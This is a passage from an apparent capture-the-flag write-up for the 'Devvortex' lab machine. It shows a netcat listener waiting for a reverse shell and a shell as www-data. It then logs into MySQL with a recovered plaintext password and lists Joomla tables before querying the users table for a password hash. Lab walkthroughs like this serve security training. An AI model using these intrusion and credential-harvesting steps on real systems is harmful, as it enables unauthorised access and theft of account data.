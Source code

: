 <p>We URL-encode it and send it in the "cmd" parameter. Before doing it, we should setup a listener so we can catch the reverse shell connection:</p>

```bash
nc -l 9001
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$
```

<p>We're in!</p>

## User Flag

<p>Lewis's credentials can be used to access MySQL:</p>

```bash
www-data@devvortex:~/dev.devvortex.htb$ mysql -u lewis -p'P4ntherg0t1n5r3c0n##'
mysql -u lewis -p'P4ntherg0t1n5r3c0n##'
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 83152
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

<p>We can get Logan's password hash with the following commands:</p>

```bash
mysql> use joomla
use joomla
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

[...snip]

mysql> show tables;
show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
[...snip]
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+

mysql> select * from sd4fg_users\G
```